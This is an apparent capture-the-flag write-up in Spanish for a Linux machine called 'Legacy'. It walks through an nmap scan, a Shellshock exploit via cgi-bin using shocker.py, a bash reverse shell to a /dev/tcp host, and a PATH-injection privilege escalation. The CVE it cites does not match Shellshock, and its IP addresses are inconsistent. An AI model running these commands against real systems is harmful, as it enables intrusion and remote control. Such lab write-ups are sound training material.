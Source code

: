 # Legacy - HACKMEX

**OS**: Linux   
**Dificultad**: Medium   
**Puntos**: 6,200   
**Solucionado por**: M41w4r3

## Resumen 
- SHELLSHOCK RCE
- PATH INJECTION 
## Nmap Scan
```
nmap -A -p- -oN legacy -T4 10.0.30.121
Warning: 10.0.50.121 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.0.50.121
Host is up (0.087s latency).
Not shown: 65499 closed ports, 35 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.34 ((Unix) mod_ssl/2.2.34 OpenSSL/1.0.1t DAV/2)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.2.34 (Unix) mod_ssl/2.2.34 OpenSSL/1.0.1t DAV/2
|_http-title: NCSA Legacy
```

## Enumeracion 
Al enumerar podemos encontrar una pagina que nos muestra que se esta ejecutando el aplicativo NCSA
Asi que al investigar un poco podemos encontrar una vulnerabilidad en los archivos cgi-bin
'''
CVE-1999-0045 
'''

## Explotar CGI-BIN

Al encontrar que podemos ejecutar codigo remotamente mediante CGI-BIN lo que se conoce como shellshock
encontre un exploit llamado shocker que nos permite automatizar el proceso del shellshock
En esta area encontramos diferentes scripts pero el que nos permitia explotar dicha vulnerabilidad era el archivo "date"

asi que el comando utilizado fue python 
```python
shocker.py  -H 10.0.30.121 --command "/bin/cat /etc/passwd" -c /cgi-bin/date
```
Despues de esto lo que ejecute fue una shell inversa con bash el comando utilizado fue : /bin/bash -i >& /dev/tcp/10.10.0.62/1111 0>&1
y asi pude obtener una reverse shell con el servidor

## Privilege Escalation 

identificamos un archivo llamado tftp en la carpeta de cgi-bin 
notamos que tiene permisos de root ademas de que es un archivo ejecutable "ELF" asi que lo ejecutamos

despues de eso identificamos que tenemos que hacer un path injection porque nos muestra un error relacionado a el ls asi que vamos a injectarle otra instruccion 
lo siguiente es crear un archivo en la carpeta de tmp : echo "/bin/sh" > ls -> esto nos permitira elevar privilegios para obtener el usuario root
despues realizamos el path injection con el siguiente comando : export PATH=/tmp/:$PATH
despues ejecutamos el archivo y nos da la shell de root

## Archivos utilizados 
*shocker.py*
## Referencias

- https://www.trendmicro.com/vinfo/us/threat-encyclopedia/archive/security-advisories/cgi_nph_test_disclosure_exploit
- https://github.com/nccgroup/shocker
